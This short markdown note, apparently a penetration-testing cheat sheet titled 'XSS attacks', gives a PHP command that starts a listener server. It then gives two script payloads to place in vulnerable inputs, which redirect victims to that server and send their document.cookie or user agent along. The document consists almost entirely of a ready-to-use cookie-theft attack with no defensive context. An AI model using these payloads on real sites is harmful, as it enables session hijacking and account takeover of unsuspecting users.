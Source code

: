 ## XSS attacks

### run below command first
```
php -S <lcoal_ip>:8000
```

### place below code in vulnerable inputs
```
<script>window.location='<lcoal_ip>:8000/?cookie='+document.cookie</script>
<script>window.location='<lcoal_ip>:8000/?cookie='+navigator.userAgent</script>
```
